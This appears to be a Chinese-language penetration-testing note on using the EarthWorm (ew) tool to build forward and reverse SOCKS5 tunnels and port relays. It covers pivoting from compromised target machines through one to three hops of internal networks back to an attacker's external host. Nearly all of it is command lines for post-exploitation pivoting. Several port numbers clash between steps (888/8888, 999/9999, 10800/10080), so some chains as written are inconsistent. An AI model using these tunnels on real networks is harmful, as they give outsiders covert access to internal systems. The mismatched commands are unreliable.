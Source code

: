 ![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/346.png)
  #### 正向(目标机存在外网IP)：
	>ew –s ssocksd –l 888
	连接sockscap64靶机外网IP+端口888
  #### 反弹socks5(目标机无外网IP)：
	外网攻击机：
	>ew -s rcsocks -l 1008 -e 888
	-l为socks软件连接的端口，-e为目标主机和vps的通信端口。
	靶机:
	>ew -s rssocks -d 外网IP -e 1008 
	sockscap64连接攻击机外网IP+端口1008
  #### 二级环境(A有外网，B内网无外网)：
	靶机B:
	>ew –s ssocksd –l 888
	靶机A:
	>ew –s lcx_tran –l 1080 –f 靶机B –g 888
	Sockscap64连接靶机外网IP+端口 1080
  #### 二级环境(A无外网，B内网无外网)：
	外网攻击机：
	>ew –s lcx_listen –l 10800 –e 888
	靶机B：
	>ew –s ssocksd –l 999
	靶机A:
	>ew -s lcx_slave -d 外网 -e 8888 -f 靶机B -g 9999 
	Sockscap64连接攻击机外网IP+端口 10080
  #### 三级环境(A无外网,B内网无外网通A,C通B)：
	外网攻击机：
	>ew -s rcsocks -l 1008 -e 888
	靶机A：
	>ew -s lcx_slave -d 外网攻击机 -e 888 -f 靶机B -g 999
	靶机B：
	>ew -s lcx_listen -l 999 -e 777
	靶机C:
	>ew -s rssocks -d靶机B -e 777
	Sockscap64连接攻击机外网IP+端口 1008
